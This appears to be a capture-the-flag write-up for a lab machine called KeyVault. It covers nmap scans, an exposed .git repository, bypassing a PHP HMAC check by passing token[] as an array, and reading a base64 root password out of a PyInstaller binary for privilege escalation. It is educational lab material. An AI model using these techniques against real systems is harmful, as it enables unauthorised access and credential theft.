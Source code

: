 # KeyVault

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.160.207
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-13 12:46 +08
Nmap scan report for 192.168.160.207
Host is up (0.17s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy
```

Did a detailed scan too:

```
$ sudo nmap -p 80,8080 -sC -sV --min-rate 3000 192.168.160.207
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-13 12:47 +08
Nmap scan report for 192.168.160.207
Host is up (0.17s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: KeyVault Password Manager &amp; Vault App with Single-Sign On ...
8080/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
| http-git: 
|   192.168.160.207:8080/.git/
|     Git repository found!
|     .git/config matched patterns 'key' 'user'
|     .gitignore matched patterns 'secret'
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|     Last commit message: Added Files and .gitignore 
|_    Project type: PHP application (guessed from .gitignore)
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: KeyVault - Password Manager
```

There was a `.git` repository which we could enumerate later.&#x20;

### Web + Git Enum

Port 80 hosted a website for a Password Manager:

<figure><img src="../../../.gitbook/assets/image (129).png" alt=""><figcaption></figcaption></figure>

The site was rather static and had nothing interesting. Port 8080 had a login page:

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

Default credentials work, but we are redirected to this cryptic site:

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

Let's take a look at the `.git` repository files. The logs of the website reveal that there's a `hmac.php` which mentions a bit more about the crypto used:

```
$ git log -p -2
diff --git a/hmac.php b/hmac.php
new file mode 100644
index 0000000..0e54e4a
--- /dev/null
+++ b/hmac.php
@@ -0,0 +1,18 @@
+<?php
+if (empty($_GET['h']) || empty($_GET['host'])) {
+   header('HTTP/1.0 400 Bad Request');
+   print("Code sent to Ray for Review Until Then this site is protected......");
+   die();
+}
+require("secret.php"); 
+if (isset($_GET['token'])) {
+   $secret = hash_hmac('sha256', $_GET['token'], $secret);
+}
+
+$hm = hash_hmac('sha256', $_GET['host'], $secret);
+if ($hm !== $_GET['h']){
+  header('HTTP/1.0 403 Forbidden');
+  print("extra security check failed");
+  die();
+}
+?>
```

### Hash Bypass

We are required to submit a `h`, `host` and `token` variable to this website. There's a `$secret` value being passed around. While googling for similar exploits online, I came across this site:

{% embed url="https://www.securify.nl/blog/spot-the-bug-challenge-2018-warm-up/" %}

The above resources details a similar exploit, where they submit `token[]=` to trigger an error within PHP to make the value of `$security` obsolete. Thus, the second `hash_hmac` would just produce the SHA-256 hash of `host`, allowing attackers to just specify a `host` and using the SHA-256 value of `host` as `h`.&#x20;

&#x20;We can use their parameters to bypass this check:

<figure><img src="../../../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

Visiting `index.php`with the same parameters will show us a page with a password:

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

We can then `ssh` in as `ray`:

<figure><img src="../../../.gitbook/assets/image (170).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Apache-Restart --> Root Creds

Within the `/opt` directory, there's this file present:

{% code overflow="wrap" %}
```
ray@keyvault:/opt$ ls
apache-restart
ray@keyvault:/opt$ file apache-restart 
apache-restart: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=ac40f3d3f795f9ee657f59a09fbedea23c4d7e25, for GNU/Linux 2.6.32, stripped
```
{% endcode %}

I ran the `binary` and on another `ssh` session, used `pspy64` to see the processes being run:

```
ray@keyvault:/opt$ ./apache-restart 
Restarting Apache Server without root....                                                    
                                                                                             
Password: 
Done
```

There was a password being keyed in. `pspy64` shows that `su` was run too:

```
2023/07/13 05:15:45 CMD: UID=1000 PID=4976   | ./apache-restart 
2023/07/13 05:15:45 CMD: UID=1000 PID=4977   | /bin/sh -c su -c '/bin/systemctl restart apache2'                                                                                          
2023/07/13 05:15:45 CMD: UID=0    PID=4978   | su -c /bin/systemctl restart apache2 
2023/07/13 05:15:45 CMD: UID=0    PID=4979   | (pachectl) 
2023/07/13 05:15:45 CMD: UID=0    PID=4981   | /usr/sbin/apache2 -k stop
```

Using `ltrace`, we can see the system calls makde and what is being written. However, the output is too long and difficult to analyse. I transferred this to my machine for further analysis. I ran `strings` on it and saw this bit:

```
blib-dynload/_asyncio.cpython-38-x86_64-linux-gnu.so
blib-dynload/_bz2.cpython-38-x86_64-linux-gnu.so
blib-dynload/_codecs_cn.cpython-38-x86_64-linux-gnu.so
blib-dynload/_codecs_hk.cpython-38-x86_64-linux-gnu.so
blib-dynload/_codecs_iso2022.cpython-38-x86_64-linux-gnu.so
blib-dynload/_codecs_jp.cpython-38-x86_64-linux-gnu.so
blib-dynload/_codecs_kr.cpython-38-x86_64-linux-gnu.so
blib-dynload/_codecs_tw.cpython-38-x86_64-linux-gnu.so
blib-dynload/_contextvars.cpython-38-x86_64-linux-gnu.so
blib-dynload/_ctypes.cpython-38-x86_64-linux-gnu.so
blib-dynload/_decimal.cpython-38-x86_64-linux-gnu.so
<TRUNCATED>
pydata
```

Because there's Python data, this might be a Python compiled binary. We can use a Python Decompiler to extract the modules that are within this.&#x20;

{% embed url="https://github.com/extremecoders-re/pyinstxtractor/tree/master" %}

```
$ python3 extractor.py apache-restart
[+] Processing apache-restart
[+] Pyinstaller version: 2.1+
[+] Python version: 3.8
[+] Length of package: 6807628 bytes
[+] Found 47 files in CArchive
[+] Beginning extraction...please standby
[+] Possible entry point: pyiboot01_bootstrap.pyc
[+] Possible entry point: pyi_rth_subprocess.pyc
[+] Possible entry point: pyi_rth_pkgutil.pyc
[+] Possible entry point: pyi_rth_multiprocessing.pyc
[+] Possible entry point: pyi_rth_inspect.pyc
[+] Possible entry point: apache-restart.pyc
[!] Warning: This script is running in a different Python version than the one used to build the executable.
[!] Please run this script in Python 3.8 to prevent extraction errors during unmarshalling
[!] Skipping pyz extraction
[+] Successfully extracted pyinstaller archive: apache-restart

You can now use a python decompiler on the pyc files within the extracted directory
```

Then, we can run `strings` on the `.pyc` files:

```
$ strings apache-restart.pyc 
TXlwZXRkb2duYW1laXNqYWNrOTA5z
utf-8z+Restarting Apache Server without root.... 
z'su -c '/bin/systemctl restart apache2' 
wg333333
Done)
base64
time
password
        b64decode
decode
print
popen
write
sleep
apache-restart.py
<module>
```

There's a string here, and it is `base64`:

```
$ echo TXlwZXRkb2duYW1laXNqYWNrOTA5z | base64 -d
Mypetdognameisjack909
```

Using this, we can `su` to `root`:

<figure><img src="../../../.gitbook/assets/image (133).png" alt=""><figcaption></figcaption></figure>

Rooted!

